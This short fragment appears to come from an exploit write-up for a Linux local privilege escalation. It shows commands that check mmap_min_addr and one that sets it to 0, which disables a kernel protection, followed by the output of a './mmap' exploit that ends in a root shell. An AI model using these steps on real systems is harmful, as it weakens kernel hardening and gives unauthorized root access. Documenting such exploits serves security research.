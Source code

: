 - Check the mmap_min_addr:
- 
cat /proc/sys/vm/mmap_min_addr

zgrep MMAP_MIN /proc/config.gz

/sbin/sysctl vm.mmap_min_addr

- Changing the mmap_min_addr value:
        /sbin/sysctl vm.mmap_min_addr=0
        
- Test the exploit:
$ ./mmap 
Page 0x0 mmaped:0xbfde0cd8[(nil)]
Send the command...
[+] enjoy the shell
sh-4.3# whoami
root
sh-4.3# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.3#
